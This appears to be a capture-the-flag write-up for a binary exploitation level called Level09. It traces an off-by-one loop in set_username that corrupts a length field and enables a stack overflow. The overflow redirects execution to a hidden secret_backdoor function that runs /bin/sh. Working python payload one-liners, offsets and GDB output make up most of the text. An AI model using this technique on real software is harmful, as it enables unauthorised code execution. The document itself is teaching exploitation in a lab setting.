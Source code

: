 # Level09

    $ ./level09 
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: coucou
    >: Welcome, coucou
    >: Msg @Unix-Dude
    >>: hello
    >: Msg sent!

The program send a message?

Start in GDB

The program fill a structure `message` with the username and message input. Using 2 functions `set_msg` and `set_username`

    struct s_message {
        char message[140];  /* message */
        char username[40];  /* message+140 */
        int len_message;    /* message+180 */
    };

The function `set_msg()` use `strncpy` to fill the structure, with the good size, no overflow possible

The function `set_username()` use a manual loop to fill the structure

    int i = 0; /* rbp-0x4 */
    while (i <= 40 && buffer[i] != 0) {
        message->username[i] = buffer[i];
        i++;
    }

The structure string is a buffer of `char[40]`. The loop start with `i = 0` and loop while `i <= 40`, so 41 times and not 40. This is an overflow

Also, there is a non used function in the program, called `secret_backdoor`

    (gdb) info functions
    All defined functions:

    Non-debugging symbols:
    ....
    0x000000000000088c  secret_backdoor
    0x00000000000008c0  handle_msg
    0x0000000000000932  set_msg
    0x00000000000009cd  set_username
    0x0000000000000aa8  main
    ....

This function ask an input and exec it with `system()`

    void secret_backdoor() {
        char buffer[128]; /* rbp-0x80 */

        fgets(buffer, 128, stdin);
        system(buffer);
        return;
    }

We can use the overflow of 1 on the struct string `username` to overflow the next struct variable : `len_message`. This variable control the strncpy on the `set_msg` function. if we put a big number inside, the strncpy will overflow and let us the space to exploit

Let's try it by injecting the biggest number we can in 1 byte : `255` == `0xff` == `\xff` 

    (40 bytes for username input) + (1 byte number to overwrite the len) + (\n for the next input) + (big string to segfault the strncpy)

    (gdb) r <<<$(python -c 'print "B"*40+"\xff"+"\n"+"A"*255')
    Starting program: /home/users/level09/level09 <<<$(python -c 'print "B"*40+"\xff"+"\n"+"A"*255')
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
    >>: >: Msg sent!

    Program received signal SIGSEGV, Segmentation fault.
    0x0000000000000000 in ?? ()

We had a segfault! Now search the offset to overwrite RBP. Using gdb-peda for have a good post-segfault report

    gdb-peda$ r <<<$(python -c 'print "B"*40+"\xff"+"\n"+"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz"')

    Starting program: /home/nico/42/override/level09/Ressources/level09 <<<$(python -c 'print "B"*40+"\xff"+"\n"+"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz"')
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
    >>: >: Msg sent!

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    ....
    RBP: 0x7878787877777777 ('wwwwxxxx')
    RSP: 0x7fffffffe328 ("yyyyzzzz\n")
    RIP: 0x555555554931 (<handle_msg+113>:	ret)
    ....

The offset of RBP is 192

    $ ./get_offset.py 77777777
    wwww => offset = 192

We can add 8 to overwrite the RSP return -> 200

Get the `secret_backdoor` address

    (gdb) info function secret_backdoor
    All functions matching regular expression "secret_backdoor":

    Non-debugging symbols:
    0x000055555555488c  secret_backdoor


Build the payload and try it

    python -c 'print "B"*40+"\xff"+"\n"+"B"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00"+"\n"+"/bin/sh"+"\n"'

    $ (python -c 'print "B"*40+"\xff"+"\n"+"B"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00"+"\n"+"/bin/sh\n"'; cat) | ./level09 
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
    >>: >: Msg sent!
    whoami
    end



